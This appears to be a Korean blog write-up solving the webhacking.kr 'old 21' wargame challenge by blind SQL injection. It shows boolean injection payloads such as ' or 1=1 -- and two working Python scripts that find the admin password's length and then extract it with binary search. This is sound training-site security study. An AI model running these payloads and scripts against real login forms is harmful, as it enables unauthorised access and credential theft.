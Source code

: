 ```yaml
---
title: "webhacking.kr old 21 문제 풀이"
date: 2025-04-08 00:00:00 +0800
categories: [Wargame, Webhacking.kr]
tags: [cyber security, writeup, webhackingkr, web hacking, blind sql injection] 
description: webhacking.kr old 21 문제 풀이
---
```


[https://webhacking.kr/challenge/bonus-1/](https://webhacking.kr/challenge/bonus-1/)
# 문제 풀이
## 분석
페이지에 접속하면 id와 pw 입력을 받는 인풋 박스가 있고 로그인의 성공, 실패를 알려주는 알림창 같은 것이 있다.<br />

혹시 몰라 guest를 두 입력 값에 모두 넣어주니 "login success" 문구가 나온다. 똑같이 admin을 입력하면 "login fail"이라고 한다.<br />
비밀번호로 인젝션 가능 여부를 판단할 때 사용되는 쿼리 구문을 입력하니 (`' or 1=1 -- `) 이번에는 wrong password가 나오는 것이 확인된다.<br /> 반면에 `' or 1=2 -- `와 같이 거짓 값을 넣어주니 login fail이 출력된다.<br />

이로써 우리는 쿼리가 반환되면 "login success" 혹은 "wrong password"가 출력되고 반환되지 않으면 "login fail"이 출력되는 듯 보인다.<br />
반환됐을 경우 아마 php 코드에 의해 비밀번호 검증을 2차로 수행하여 결과에 따라 메세지를 출력하는 것으로 보인다.<br />

쿼리의 성공 여부만 알 수 있는 이 경우에 Blind SQLI를 사용할 수 있는데 참고로 페이지 한 가운데에 "BLIND SQL INJECTION"이라고 대놓고 힌트를 주고있다.<br />
## 최종 풀이
### 예상되는 쿼리
인젝션을 진행하기에 앞서 더 손쉬운 인젝션을 위해 우선 서버 쪽의 쿼리가 어떤식으로 생겼을지 예상해보아야 한다.<br />

```sql
select * from users where id={id_input} and pw={pw_input}
```
이 쿼리가 아마 가장 유력할 것 같은데, 예상되기로는 해당 쿼리가 값을 리턴한다면 success, wrong password 그렇지 않다면 fail로 보는 것 같다.<br />
### 비밀번호 길이 구하기
```python
import requests

url = "https://webhacking.kr/challenge/bonus-1/index.php?"

for i in range(1, 100):
    param = {
        "id": "admin",
        "pw": f"' or length(pw)={i} and id='admin' -- "
    }

    resp = requests.get(url, params=param)
    print(i)
    if "wrong password" in resp.text:
        print(resp.text)
        break
```
비밀번호의 길이를 구하기 위한 쿼리를 `' or length(pw)={i} and id='admin' -- `로 작성하고 i 값을 1부터 100까지 늘리면서 "wrong password"가 출력된다면 길이를 찾은 것으로 간주하여 break로 빠져나오는 방식이다.<br />
이 방식으로 비밀번호의 길이는 36이라는 것을 알아냈다.<br />
### 비밀번호 구하기
```python
import requests
import string

url = "https://webhacking.kr/challenge/bonus-1/index.php?"

password = ""
for i in range(1, 36 + 1):
    low = 32
    high = 126

    while low <= high:
        mid = (high + low) // 2
        param = {
            "id": "admin",
            "pw": f"' or ord(substr(pw, {i}, 1))<={mid} and id='admin' -- "
        }
        resp = requests.get(url, params=param)
        if "wrong password" in resp.text:
            # checking if the mid is the RIGHT CHARACTER
            param["pw"] = f"' or ord(substr(pw, {i}, 1))={mid} and id='admin' -- "
            resp = requests.get(url, params=param)
            if "wrong password" in resp.text: 
                break
            else: high = mid - 1
        else:
            low = mid + 1
    
    print(chr(mid), i)
    password += chr(mid)

print(password)
```
비밀번호를 구하는 알고리즘은 조금 더 복잡하다.<br />
자세히보면 binary search 알고리즘을 사용하고있는 것을 알 수 있다. ascii 코드 상으로 보았을 때 비밀번호에 들어갈 수 있는 글자는 총 95개이다. 비밀번호의 글자 수가 36개인데 각 자리마다 95번(최악의 경우)씩 연산을 하면 너무 비효율적이고 오래걸리기도 해서 이진 탐색을 채택했다.<br />

여기서 주목해야할 점은 `substr(pw, {i}, 1)<={mid}`를 통과했을 때 다시 한 번 `substr(pw, {i}, 1)={mid}`를 통과하는지 체크한다.<br />
왜냐하면 정확한 글자를 찾아놓고선 이를 알지 못하고 다시 한 번 탐색을 진행하게 돼 우리가 원치 않은 정보를 얻을 수 있기 때문이다.<br /> 
실제로 해당 부분을 지우고 실행해보면 몇 몇 글자에서 잘못된 글자를 얻게된다.<br />

결국 해당 코드를 실행시키면 36글자로 이루어진 읽을 수 있는 영어 문장이 나온다.<br />
id를 admin으로 그리고 이 비밀번호를 pw에 넣어주고 제출하면 문제가 해결된다.<br />
#### 추가 정보
원래라면 Blind SQLI에서는 컬럼 이름을 알아내기 위해서는 DB 이름, 테이블 이름 등을 알아내는 것이 우선시된다.<br /> 
하지만 이 문제에서는 난이도가 낮은 탓에 URL 파라미터로 받는 이름 그대로 컬럼 이름이 설정돼있어서 이 부분이 생략될 수 있었다.<br />